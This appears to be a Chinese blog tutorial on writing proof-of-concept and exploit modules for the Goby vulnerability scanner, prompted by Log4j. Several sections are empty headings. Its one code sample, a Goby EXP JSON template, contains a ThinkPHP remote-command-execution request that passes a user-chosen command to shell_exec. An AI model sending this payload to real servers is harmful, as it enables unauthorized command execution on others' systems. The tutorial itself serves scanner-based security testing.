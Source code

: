 ```yaml
---
layout: post
title: goby 扫描工具 poc 编写
categories: [安全]
description: goby 扫描器使用方式
keywords:  安全工具
---
```


# goby 

Goby 是通过 golang 编写的扫描器，同时拥有资产扫描、资产识别和漏洞扫描能力，安装简单，直接解压即可使用，界面也非常友好，内置了大量由官方和其他网络安全从业者提供的poc。

下载链接:

https://github.com/gobysec/Goby/releases



## 前言

前段时间的Log4j漏洞影响很广泛，网上已经公开了很多地方的利用方式，而平时用goby较多，就想利用goby的指纹识别对目标定向检测。这篇文章就从Apache Solr Log4j漏洞为例，教大家如何写goby poc，文章中有错误还请及时指正。

Goby可以通过编写go文件，来实现一些高级的漏洞检测或利用，例如dnslog检测漏洞，详情可查阅goby官方文档：https://cn.gobies.org/docs/exp/index.html

## 准备知识

[ 添加 goby poc 教程](https://github.com/gobysec/Goby/wiki/Vulnerability-writing-guide#goby-%E6%BC%8F%E6%B4%9E%E6%89%AB%E6%8F%8F%E5%BC%95%E6%93%8E%E6%A8%A1%E6%9D%BF%E4%BB%8B%E7%BB%8D)

## 二、漏洞復現





## 三、goby poc 编写

Goby 是通过 golang 编写的，而一些漏洞检测场景（比如dnslog验证），goby自身的JSON 格式无法满足这一需求，需采用 Golang 编写漏洞代码。



### expJson部分

### poc编写

[参考](https://github.com/gobysec/Goby/wiki/Vulnerability-writing-guide#poc-%E7%BC%96%E5%86%99)

### EXP 编写

  goby还有Verify功能，我们需要增加exp部分才可以在扫描到漏洞之后直接用goby验证，但是这部分没法在gui编写。首先，找到刚才编写的POC自动生成的JSON文件。


> 路径：\goby-win-x64-1.8.202\golib\exploits\user


exp 例子：
```
"HasExp": true				// 是否录入 Exp，如有 Exp，Goby 在扫描到漏洞后会展现出 verify 按钮用以执行 Exp 验证漏洞
"ExpParams": [				// 前端需要传递给 Exp 的参数，如要执行的命令
    {
        "name": "cmd",		// 参数的名称
        "type": "input",	// 参数输入类型，input 表示需要用户输入，select 表示 Exp 可以提供默认列表让用户进行选择输入内容
        "value": "whoami"	// 参数的值
    }
]
"ExploitSteps": [
    "AND",
    {
        "Request": {
            "method": "GET",
            "uri": "/index.php?s=/Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]={{{cmd}}}",					// 通过 {{{参数名称}}} 引用前端传递过来的值
            "follow_redirect": true,
            "header": {},
            "data_type": "text",
            "data": ""
        },
        "SetVariable": ["output|lastbody"]		// 将响应的 HTTP Body 打印出来，展示命令执行效果
    }
]
```






## Goby+AWVS看黑客如何躺着挖洞

[参考](https://zhuanlan.zhihu.com/p/414104243)
